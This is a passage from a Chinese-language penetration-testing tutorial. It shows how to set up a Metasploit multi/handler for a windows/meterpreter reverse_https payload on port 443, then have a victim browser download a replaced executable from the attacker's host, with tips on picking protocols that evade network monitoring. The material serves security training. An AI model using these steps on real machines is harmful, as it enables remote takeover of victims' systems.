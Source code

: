 档案准备好了。最好使用 http 或 https 服务来交换文件。这些服务几乎可以在所有系统上使用，因为这些是用于更新系统的协议。网络监控设备可能会检测到或阻止尝试（或成功）连接到 FTP、SSH 或非标准端口等协议。

接下来，我们需要启动负载可以连接的处理程序。从 msfconsole 提示符运行以下命令：

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.204.128
set LPORT 443

```

然后运行以下命令：

```
exploit

```

这将打开端口并开始监听端口`443`以接收受害者机器的呼叫总部：

![Replacing the executable](img/image00893.jpeg)

接下来，从受害者机器打开您选择的 web 浏览器，并通过转到`http://192.168.204.128/ftpbasicsvr.exe`从攻击机器获取文件。您的浏览器可能会抱怨下载可执行文件，但只需更改安全设置，然后下载文件即可。这有点嘈杂，具有 ArcSight 客户端的机器将注册您正在作为系统用户进行这些更改：

![Replacing the executable](img/image00894.jpeg)

接下来，保存文件：
